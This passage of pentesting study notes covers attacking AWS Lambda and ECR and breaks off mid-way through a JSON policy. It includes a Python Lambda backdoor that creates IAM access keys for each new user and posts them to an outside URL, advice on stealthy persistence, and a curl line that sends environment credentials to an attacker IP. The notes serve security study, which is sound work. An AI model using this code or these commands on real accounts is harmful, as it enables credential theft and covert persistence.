 def lambda_handler(event,context):
	if event[&#x27;detail&#x27;][&#x27;eventName&#x27;]==&#x27;CreateUser&#x27;:
	client=boto3.client(&#x27;iam&#x27;)
	try:
		response=client.create_access_key(UserName=event[&#x27;detail&#x27;][&#x27;requestParamete
		rs&#x27;][&#x27;userName&#x27;])
		requests.post(&#x27;POST_URL&#x27;,data={&quot;AKId&quot;:response[&#x27;AccessKey&#x27;][&#x27;AccessKeyId&#x27;],
		&quot;SAK&quot;:response[&#x27;AccessKey&#x27;][&#x27;SecretAccessKey&#x27;]})
		except:
		pass
	return</code></pre></li></ul><ul id="d97b602f-5611-4ab5-9960-2ca1b69e95b2" class="bulleted-list"><li style="list-style-type:disc">best practice to enable CloudTrail across all AWS regions</li></ul><ul id="565f13ff-7a2d-4e42-be84-b9e9fc37743b" class="bulleted-list"><li style="list-style-type:disc">it is better to backdoor existing Lambda functions as it is stealthier<ul id="1d077ddf-4ba0-4577-9ecd-dcd48d1eb592" class="bulleted-list"><li style="list-style-type:circle">this avoids creating new resources in an environment, which can be noisy</li></ul></li></ul>
<h2 id="00b533e8-047d-4e1f-938d-2994f649652e" class="">Backdooring ECR</h2><ul id="7bbc2058-c5f6-441b-99ea-ad46f830ce21" class="bulleted-list"><li style="list-style-type:disc">if it is possible to log into the container registry, pull a Docker image, and update it in the AWS environment, then an image can be modified with an attacker’s malware to establish persistence  </li></ul>
<h1 id="c27ae794-0a9f-419f-a5ec-f38048763818" class="">Chapter 12: Pentesting Lambda</h1><ul id="f5e0a311-e87a-49dd-8366-3ccc99582911" class="bulleted-list"><li style="list-style-type:disc">Lamba is considered serverless, but technically isolated servers are spun up for the duration of a function’s runtime<ul id="c279a430-65c5-47d1-b68a-b3bddc2be7cc" class="bulleted-list"><li style="list-style-type:circle">filesystem is read-only except for <code>/tmp</code></li></ul><ul id="cbb60d7e-31ce-412d-a3ed-bcc419fb9e45" class="bulleted-list"><li style="list-style-type:circle">you are a low-privileged user</li></ul></li></ul><ul id="0efcd91d-287d-4987-a9eb-6917d92e5d16" class="bulleted-list"><li style="list-style-type:disc">check environment variables of Lambda functions<ul id="588577d6-a477-424a-8678-f336c30210eb" class="bulleted-list"><li style="list-style-type:circle"><code>aws lambda list-functions --profile &lt;PROFILE&gt;</code> </li></ul></li></ul>
<h2 id="0401dea5-703f-42d5-9c0f-01e46a60a462" class="">Event Injection</h2><ul id="20dfb3ea-0cee-4098-9dc2-4d51a14f1e74" class="bulleted-list"><li style="list-style-type:disc">if RCE can be obtained on the Lambda function, creds can be exfiltrated via environment variables (as opposed to EC2 where it is in the metadata serice)<ul id="f7abc9d4-efcf-4a87-8986-6c494b3118a2" class="bulleted-list"><li style="list-style-type:circle">read environment variables with <code>env</code> and exfiltrate with <code>curl</code> (<code>curl -X POST -d `env` &lt;ATTACKER_IP&gt;</code>)<ul id="171bf43f-3e2e-4974-8876-c422320afd60" class="bulleted-list"><li style="list-style-type:square">bash runs commands enclosed in backticks (`) first</li></ul></li></ul><ul id="9349751f-7fa9-43e8-ab1a-53426f1aaf04" class="bulleted-list"><li style="list-style-type:circle">Lambda has <code>curl</code> by default</li></ul></li></ul><ul id="6868fe68-967c-4704-80c0-20e56053ffea" class="bulleted-list"><li style="list-style-type:disc">may be able to indirectly invoke a function that is set to automatically trigger upon an event in a different service<ul id="863c6f61-703b-4c6a-a268-075858e7a3a9" class="bulleted-list"><li style="list-style-type:circle">e.g. lambda function triggers on an uploaded file in an S3 bucket: </li></ul><p id="4e2896b1-173c-4930-9479-3f012393a14f" class=""><code>aws lambda get-policy --function-name VulnerableFunction --profile LambdaReadOnlyTester --region us-west-2</code></p><pre id="38ccdfd8-14a6-4ecf-b715-0efb76db4d0a" class="code"><code>{
	&quot;Version&quot;: &quot;2012-10-17&quot;,
	&quot;Id&quot;: &quot;default&quot;,
	&quot;Statement&quot;: [
		{
			&quot;Sid&quot;:
			&quot;000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul&quot;,
			&quot;Effect&quot;: &quot;Allow&quot;,
			&quot;Principal&quot;: {
				&quot;Service&quot;: &quot;s3.amazonaws.com&quot;
			},
			&quot;Action&quot;: &quot;lambda:InvokeFunction&quot;,
			&quot;Resource&quot;: &quot;arn:aws:lambda:us-west-2:000000000000:function:VulnerableFunction&quot;,
			&quot;Condition&quot;: {
				&quot;StringEquals&quot;: {
					&quot;AWS:SourceAccount&quot;: &quot;000000000000&quot;